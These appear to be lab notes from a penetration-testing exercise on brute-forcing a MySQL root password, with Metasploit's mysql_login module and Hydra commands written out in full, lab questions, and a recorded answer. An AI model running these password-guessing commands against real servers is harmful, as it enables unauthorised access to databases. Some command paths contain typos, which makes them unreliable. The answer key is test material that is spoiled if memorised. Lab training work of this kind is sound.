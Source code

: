 ### Tools 
nmap

### Commands

```
msfconsole 
use auxiliary/scanner/msql/mysql_login
set rhosts target_ip
set pass_file /usr/share/metasploit-framework/data/worldlists/unix_passwords.txt
set verbose false
set stop_on_success true
set username root
exploit
```

Use Hydra to brute force MySQL Login 
```
hydra -l root -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt target_ip mysql
```


192.50.133.3
#### Questions
1.  Find the password of user “root” which is required to access the MySQL server. Use suitable metasploit module with password dictionary: /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt

```

```
   
2.  Find the password of user “root” which is required to access the MySQL server. Use Hydra with password dictionary: /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt

```

```

#### Answsers
1. catlina
2. 